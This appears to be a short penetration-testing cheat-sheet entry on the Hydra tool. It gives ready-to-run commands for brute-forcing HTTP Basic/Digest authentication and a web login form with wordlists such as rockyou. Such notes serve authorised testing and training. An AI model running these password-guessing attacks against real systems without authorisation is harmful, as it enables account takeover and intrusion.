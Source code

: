 <details>
<summary>$\huge{\text{Hydra}}$</summary>

- HTTP Basic Authentication & HTTP Digest Authentication
  - `hydra -L users.txt -P password.txt -vV example.com http-get /basic`
  - IMPORTANT NOTE: /basic and /basic/ are different... so pay attention to set the correct path
- Other: https://github.com/gnebbia/hydra_notes
- HTTP LOGIN
  - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"`



<br>
</details>
